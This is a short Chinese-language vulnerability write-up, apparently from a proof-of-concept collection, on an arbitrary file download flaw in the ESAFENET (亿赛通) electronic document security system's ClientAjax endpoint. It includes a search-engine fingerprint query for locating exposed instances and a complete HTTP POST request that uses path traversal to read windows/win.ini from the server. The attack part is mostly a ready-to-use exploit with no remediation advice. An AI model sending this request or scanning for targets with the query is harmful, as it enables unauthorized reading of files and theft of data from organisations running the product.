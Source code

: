 # 亿赛通 电子文档安全管理系统 ClientAjax 任意文件下载

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通 电子文档安全管理系统 ClientAjax 任意文件下载。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/mbkO_M4VWp-8yvxF/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-404683.png)

# 四、漏洞复现
```plain
POST /CDGServer3/ClientAjax HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 102
Connection: close

command=downclientpak&InstallationPack=../../../../../../../../../../windows/win.ini&forward=index.jsp
```

![1709050220404-e9b727a0-dcd7-43ee-a59e-600d2c799756.png](./img/mbkO_M4VWp-8yvxF/1709050220404-e9b727a0-dcd7-43ee-a59e-600d2c799756-467598.png)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bp3z1gini1gk9gf8>
